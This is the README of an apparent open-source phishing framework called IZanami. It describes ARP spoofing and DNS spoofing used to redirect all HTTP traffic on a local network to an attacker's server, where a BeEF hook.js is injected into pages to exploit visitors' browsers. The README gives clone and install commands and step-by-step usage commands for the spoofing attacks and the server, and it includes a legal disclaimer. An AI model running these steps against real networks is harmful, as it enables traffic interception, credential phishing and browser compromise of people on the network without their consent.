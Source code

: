 # IZanamiFramework
![Python 3.x](https://img.shields.io/badge/python-v3.7-blue) ![Platform linux-debian-based](https://img.shields.io/badge/platform-linux--debian--based-red)
---
The Izanami Framework is a phishing attacks framework, that use ARP spoof attack and DNS spoofing attack to redirect all LAN devices HTTP requests to a specified address to perform a Powerful Phishing attack, IZanami inject beef-xss hook.js file into each requested HTML page , to target and exploit users's browsers.

# AUTHOR 
```
    [+] AUTHOR:       Yasser Janah
    [+] GITHUB:       https://github.com/yasserjanah
    [+] TWITTER:      https://twitter.com/yasser_janah
    [+] FACEBOOK:     https://fb.com/yasser.janah
```
---
# Legal disclaimer
Usage of ***IZanami Framework***  for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. ***Only use for educational purposes.***

---
# Screenshots
![ARP_SPOOFING_and_DNS_SPOOFING](https://i.ibb.co/9n0PJdv/Screenshot-from-2020-04-09-14-40-49.png)

# Installation
```
git clone https://github.com/yasserjanah/IZanamiFramework.git
cd IZanamiFramework/
chmod +x arp_spoof.py dns_spoof.py runserver.sh
cd scripts
chmod +x install.sh
./installs.sh
```
# Usage
    *** Run this with root permissions ***
    1) run ARP Spoofing attack :
```
    $ ./arp_spoof.py -t <TARGET(s)> -g <GATEWAY> -i <INTERFACE>
```
    2) configure config/dns.conf :
```
    $ nano config/dns.conf 
        """ example of content of this file """
        [google.com]
            ip = <YOUR_IP OR THE_IP_WHO_YOU_WANT_TO_REDIRECT_CLIENT_TO>
            rule = O ==> Only This Domain OR AS ==> All Subdomain 
```
    3) run DNS Spoofing attack :
```
    $ ./dns_spoof.py
```
    4) run web server :
```
    $ ./runserver.sh
```
DEMO Video Soon
